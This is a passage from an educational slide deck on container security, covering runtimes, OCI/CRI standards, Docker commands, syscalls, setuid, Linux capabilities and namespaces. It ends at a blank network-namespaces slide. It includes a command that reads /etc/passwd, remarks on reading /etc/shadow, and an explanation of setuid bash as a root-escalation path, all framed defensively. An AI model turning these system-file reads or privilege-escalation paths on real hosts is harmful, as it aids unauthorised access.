<!-- _class: title -->

# Container Security

## From Kernel Foundations to Production

---

<!-- _class: small -->
# Contents

- Virtualization: Containers vs VMs
- Containers Standards
- Container Internals: The Kernel Foundations
  - Linux Capabilities
  - Namespaces
  - Control Groups
  - OverlayFS
- Attack Surface
- Securing the Container Build Process
- Securing the Container Runtime Process
  - Seccomp, AppArmor, SELinux, eBPF
- Container Sandboxing Approaches

---
<!-- _class: small -->

# Virtualization: Resource Sharing

<div class="columns">
<div class="col">



</div>
<div class="col">

Resource virtualization

Pretend that we have many CPUs

- A single CPU is time-sliced across multiple threads (T1, T2, T3)
- Each thread believes it has its own dedicated processor

</div>
</div>

---

<!-- _class: small -->

# Virtualization: Virtual Machines

<div class="columns">
<div class="col">



</div>
<div class="col">

It is the process of creating a virtual representation of something based on software, such as a virtual application, server, storage or network

- Each VM runs its own OS on top of a **Virtualization layer (Hypervisor)**
- All running on a **Physical server**

</div>
</div>

---

# Virtualization: Types




---
# Virtualization via containers




---

# Virtualization via containers via vms





---

# Container Ecosystem



---

<!-- _class: medium -->
# Container Standards

**Open Container Initiative** (OCI): a set of standards for containers, describing the image format, runtime, and distribution.
- **Image Spec** -- defines how container images are built and structured
- **Runtime Spec** -- defines how to run a container from an image
- **Distribution Spec** -- defines how images are pushed/pulled from registries, standardizing registry APIs, image signing, and content discovery
- NOT specific to kubernetes.

**Container Runtime Interface** (CRI) in Kubernetes: An API that allows you to use different container runtimes in Kubernetes.
- high-level specs: enables kubelet to talk to any OCI compliant container runtimes.
- specific to Kubernetes.

---

<!-- _class: xsmall -->

# All together
<!-- _class: xsmall -->

<div class="columns">
<div class="col">



</div>
<div class="col">

- **CRI** defines how Kubernetes interacts with different container runtimes
- **OCI** provides specifications for container images and running containers
- **runc** is an OCI-compliant tool for spawning and running containers

> **Note:** In a Kubernetes cluster, only **one** high-level runtime (containerd **or** CRI-O) is configured per node -- they are alternatives, not used simultaneously.

</div>
</div>

---
<!-- _class: xsmall -->

# Docker projects




---

<!-- _class: medium -->

# Containerd vs CRI-O

**containerd**

containerd is a high-level container runtime that came from Docker. It implements the CRI spec. It pulls images from registries, manages them and then hands over to a lower-level runtime, which uses the features of the Linux kernel to create processes we call 'containers'.

**CRI-O**

CRI-O is another high-level container runtime which implements the Kubernetes Container Runtime Interface (CRI). It's an alternative to containerd.

Detect which one is used in kubernetes: `kubectl get nodes -o wide`

> **dockershim removed in Kubernetes 1.24+** (2022): Kubernetes can no longer talk to Docker directly. If you still need Docker Engine as a runtime, you must use **cri-dockerd** -- a standalone CRI adapter. Most clusters have migrated to containerd or CRI-O.


---
<!-- _class: small -->


# runc

<div class="columns">
<div class="col">



</div>
<div class="col">

**runc** is an OCI-compatible container runtime. It implements the OCI specification and runs the container processes.

runc is sometimes called the "reference implementation" of OCI.

**runc** provides all of the low-level functionality for containers, interacting with existing low-level Linux features, like **namespaces** and **control groups**. It uses these features to create and run container processes.

runc is a tool for running containers on Linux. On Windows, the equivalent is Microsoft's Host Compute Service (HCS) with **runhcs**.

</div>
</div>

---
<!-- _class: small -->

# Orchestrators



---

# Definitions

- **Container engine** - accepts user requests, pulls images, and from the end user's perspective runs the container

- **Container runtime** - manages the container lifecycle: configuring its environment, running it, stopping it
  - **high level** container runtimes (CRI) - the valves which feed the pistons
  - **low level** container runtimes - the pistons which do the heavy lifting

- **Container orchestrator** - manages sets of containers across different computing resources, handling network and storage configurations

---

# Comparison

| Task | Container Engine (docker,podman) | Container Runtime (containerd, runc) |
|---|---|---|
| Image Build | YES | NO |
| Image management | YES | YES |
| Container Lifecycle Management | YES | YES |
| Container Orchestration | YES | NO |
| Networking | YES | NO |
| Volume Management | YES | LIMITED |
| Logging | YES | LIMITED |
| Security and Access Controls | YES | LIMITED |
| cli/API | YES | LIMITED |
| Resource Management | YES | YES |

---
<!-- _class: medium -->

# Alternatives

| Feature | Docker | containerd | LXD | BuildKit | Podman | buildah | runc |
|---|---|---|---|---|---|---|---|
| Performance | High with caching | Efficient, low overhead | High with system containers | Optimized for concurrent ops | Comparable to Docker | Optimized for OCI images | Low-level tool |
| Security | Namespaces, cgroups, SELinux | Namespaces, cgroups | Unprivileged containers | Content-addressable | Rootless, daemonless | Rootless build | Namespaces and cgroups |
| Ease of Use | User-friendly CLI | Lower-level API | Simple REST API | Low-Level Build | Native CLI, similar to Docker | Simple CLI for images | Used indirectly |
| Community Support | Very large, extensive docs | Large, CNCF-backed | Moderate, Canonical-backed | Growing, part of Moby | Growing, Red Hat-backed | Moderate, Red Hat-backed | Small, OCI reference |
| Platform Support | Linux, macOS, Windows | Linux, Windows | Linux only | Linux, Windows | Linux, macOS, Windows | Linux only | Linux only |

---

<!-- _class: xxsmall -->

# Docker Commands Cheatsheet

<div class="columns">
<div class="col">

**Images**
| Command | Description |
|---|---|
| `docker build -t name .` | Build image from Dockerfile |
| `docker images` | List local images |
| `docker pull image:tag` | Pull image from registry |
| `docker rmi image` | Remove an image |
| `docker tag src dst` | Tag an image |
| `docker push image:tag` | Push image to registry |

**Containers**
| Command | Description |
|---|---|
| `docker run -it image sh` | Run interactive container |
| `docker run -d image` | Run in background |
| `docker ps` | List running containers |
| `docker ps -a` | List all containers |
| `docker stop name` | Stop a container |
| `docker rm name` | Remove a container |

</div>
<div class="col">

**Inspect & Debug**
| Command | Description |
|---|---|
| `docker exec -it name sh` | Shell into running container |
| `docker logs name` | View container logs |
| `docker inspect name` | Show container details |
| `docker top name` | Show running processes |
| `docker stats` | Live resource usage |

**Volumes & Networks**
| Command | Description |
|---|---|
| `docker volume create vol` | Create a volume |
| `docker run -v vol:/data` | Mount a volume |
| `docker run -v /host:/ctr` | Bind mount host path |
| `docker network ls` | List networks |
| `docker network create net` | Create a network |

**Compose**
| Command | Description |
|---|---|
| `docker compose up -d` | Start services |
| `docker compose down` | Stop and remove |
| `docker compose logs` | View logs |

</div>
</div>

---

<!-- _class: title -->

# Container Internals: The Kernel Foundations

---


# Linux System Calls


<div class="columns">

<div class="col">



</div>

<div class="col">


Applications run in what's called **user space**, which has a lower level of privilege than the operating system kernel.

If an application wants to do something like access a file, communicate using a network, or even find the time of day, it has to **ask the kernel** to do it on the application's behalf. The programmatic interface that the user space code uses to make these requests of the kernel is known as the **system call** or **syscall** interface.
</div>

</div>

---

<!-- _class: small -->
# Linux System Calls

There are some 300+ different system calls:

- `read` - read data from a file
- `write` - write data to a file
- `open` - open a file for subsequent reading or writing
- `execve` - run an executable program
- `chown` - change the owner of a file
- `fork` - create a new process

Example:
```bash
strace -f -e trace=all cat /etc/passwd
strace -c cat /etc/passwd
ausyscall --dump  # see all system calls
```

---

# Permissions

```
- r w x r w x r w x
|  |       |       |
|  |       |       +-- Read, write, and execute for all other users
|  |       +---------- Read, write, and execute for group owner
|  +------------------ Read, write, and execute for file owner
+--------------------- File type (- = regular, d = directory)
```

Numeric mode example: `754`
- **7** (user): rwx = 4+2+1
- **5** (group): r-x = 4+0+1
- **4** (other): r-- = 4+0+0

---

# Permissions

**Setuid** - "Regardless of who runs this program, run it as the user who owns it, not the user that executes it."
```bash
ls -l /usr/bin/passwd
-rwsr-xr-x 1 root root 68208 /usr/bin/passwd
```

**Setgid** - When used on a file, it executes with the privileges of the group of the user who owns it.

**Sticky Bits** - When a directory has the sticky bit set, its files can be deleted or renamed only by the file owner, directory owner and the root user.
```bash
drwxrwxrwt 26 root root 1191936 tmp
```

---

# Security implications of setuid

Imagine what would happen if you set setuid on, say, bash. Any user who runs it would be in a shell, running as the root user.

Because setuid provides a dangerous pathway to privilege escalation, some container image scanners will report on the presence of files with the setuid bit set.

You can also prevent it from being used with the `--no-new-privileges` flag on a docker run command.

---

<!-- _class: medium -->
# Linux Capabilities: Overview



- In traditional Linux systems, the root user (UID 0) has all privileges. However, this "all-or-nothing" model can be risky.
- **Linux Capabilities** break down root's powers into distinct units, allowing processes to get only the privileges they actually need -- improving security.
- **Split the root permission into small pieces** that are able to be distributed individually on a thread basis without having to grant all permissions to a specific process at once

---

# Linux Capabilities - how to?

There are two ways a process can obtain a set of capabilities:

- **Inherited capabilities**: A process can inherit a subset of the parent's capability set. To inspect: `/proc/<PID>/status`

- **File capabilities**: It's possible to assign capabilities to a binary, e.g. using `setcap`. The process created when executing a binary of this type is then allowed to use the specified capabilities on runtime.

---

# Linux Capabilities: Decoding

```bash
$ ps
    PID TTY          TIME CMD
 142586 pts/1    00:00:01 zsh

$ cat /proc/142586/status | grep Cap
CapInh: 0000000800000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 000001ffffffffff
CapAmb: 0000000000000000

$ capsh --decode=000001ffffffffff
0x000001ffffffffff=cap_chown,cap_dac_override,...

$ getpcaps 142586
142586: cap_wake_alarm=i
```

---

# Linux Capabilities: Capability Sets

- **CapInh** -- Inherited - Which capabilities can be passed from parent to child processes during exec()
- **CapPrm** -- Permitted - What the process is allowed to make effective or pass to child processes
- **CapEff** -- Effective - What the process is currently allowed to do
- **CapBnd** -- Bounding - Hard limit for the process and its children. You can't ever get a capability if it's not in this set
- **CapAmb** -- Ambient - A newer mechanism to preserve capabilities across exec() without needing special binaries

---

# Linux Capabilities examples

- `CAP_NET_BIND_SERVICE` - Bind to ports < 1024 (e.g., port 80)
- `CAP_SYS_ADMIN` - Powerful & broad: mount filesystems, set hostname, etc. Often called "the new root"
- `CAP_NET_ADMIN` - Modify network interfaces, routing tables
- `CAP_SYS_TIME` - Change system clock
- `CAP_CHOWN` - Change file ownership
- `CAP_DAC_OVERRIDE` - Bypass file permission checks
- `CAP_SETUID` / `CAP_SETGID` - Change user/group IDs

To see all: `man 7 capabilities`

---

# Replacing setuid with capabilities

Assigning the setuid bit to binaries is a common way to give programs root permissions. Linux capabilities is a great alternative to reduce the usage of setuid.

Example:
```bash
$ ls -l $(which passwd)
-rwsr-xr-x 1 root root 80856 /usr/bin/passwd
```

Instead of giving full root via setuid, grant only the specific capability needed.

---

# Linux Capabilities in containers

By default, containers may run as root but with reduced capabilities, making them safer than full root access.

Example:
```bash
docker run --cap-drop ALL --cap-add NET_BIND_SERVICE myapp
```

This drops all privileges, then only adds the ability to bind to low ports.

> **Common misconception:** Dropping all capabilities does **not** prevent a process from reading/writing files. Standard Linux file permissions (UID/GID) still apply independently. A root process with zero capabilities can still read `/etc/shadow` if file permissions allow it. Capabilities control *kernel-level operations* (binding low ports, loading modules), not basic file I/O.

---

# Linux Capabilities: capsh Demo

The `capsh` command can run a particular process and restrict the set of available capabilities.

```bash
$ capsh --print -- -c "/bin/ping -c 1 localhost"
# ping works

$ capsh --drop=cap_net_raw --print -- -c "/bin/ping -c 1 localhost"
# unable to raise CAP_SETPCAP for BSET changes: Operation not permitted
```

If we drop the `CAP_NET_RAW` capabilities for ping, then the ping utility should no longer work.

---

# Linux Capabilities commands

| Command | Description |
|---|---|
| **capsh** | capability shell wrapper to test Linux capabilities |
| **captest** | performs a set of tests related to capabilities |
| **filecap** | shows available capabilities set on binaries in $PATH |
| **firejail** | sandboxes applications |
| **getcap** | queries the available file capabilities |
| **getpcaps** | shows the available process capabilities |
| **netcap** | shows network-related processes and their capabilities |
| **pscap** | shows overview of processes and their assigned capabilities |
| **setcap** | adds or removes available file capabilities |

---

<!-- _class: title -->

# Container Basics
---

# Containers are based on



**Namespaces** - Isolate what a process sees - Separate hostname, PID space, network


**Cgroups** - Limit what a process can use - Limit CPU, memory, I/O


---

# Namespaces

Namespaces are a Linux kernel feature released in kernel version 2.6.24 in 2008. They provide **processes** with **their own system view**, thus **isolating** independent processes from each other. In other words, namespaces **define the set of resources that a process can use** (You cannot interact with something that you cannot see).

At a high level, they allow fine-grain partitioning of global operating system resources such as mounting points, network stack and inter-process communication utilities. They are represented as files under the `/proc/<pid>/ns` directory.

---

# Namespaces

- **user** namespace - its own set of user IDs and group IDs. Root inside != root outside
- **process ID** (PID) namespace - independent set of PIDs. First process is PID 1
- **network** namespace - independent network stack: routing table, IP addresses, sockets, firewall
- **mount** namespace - independent list of mount points
- **IPC** namespace - its own IPC resources (POSIX message queues)
- **UTS** namespace - different host and domain names

```bash
unshare --user --pid --map-root-user --mount-proc --fork bash
```

---

<!-- _class: medium -->

# User namespace

- Isolates security-related identifiers and attributes: user IDs, group IDs, the root directory, keys, and capabilities
- A process's user and group IDs can be **different inside and outside** a user namespace
- A process can have a normal unprivileged user ID outside a user namespace while having **user ID 0 inside** the namespace

```bash
$ id
uid=1000(rg) gid=1000(rg) groups=1000(rg),963(docker),998(wheel)

$ unshare -U /bin/bash
[nobody@rg-norbloc ~]$ id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

If a user ID has no mapping inside the namespace, system calls return the value defined in `/proc/sys/kernel/overflowuid`, which defaults to `65534`. Initially, a user namespace has no user ID mapping, so all user IDs inside the namespace map to this value.

---

# User namespace



---

<!-- _class: small -->

# Process namespaces

<div class="columns">
<div class="col">



</div>

<div class="col">


- Isolates process IDs
- Processes in one namespace can't see or affect processes in another. Each container can have its own process tree, starting from PID 1.

**PID namespace isolation**: processes in the child namespace have no way of knowing of the parent process's existence. However, processes in the parent namespace have a complete view of processes in the child namespace.

</div>
</div>

---

<!-- _class: small -->
# Network namespaces


<div class="columns">
<div class="col">

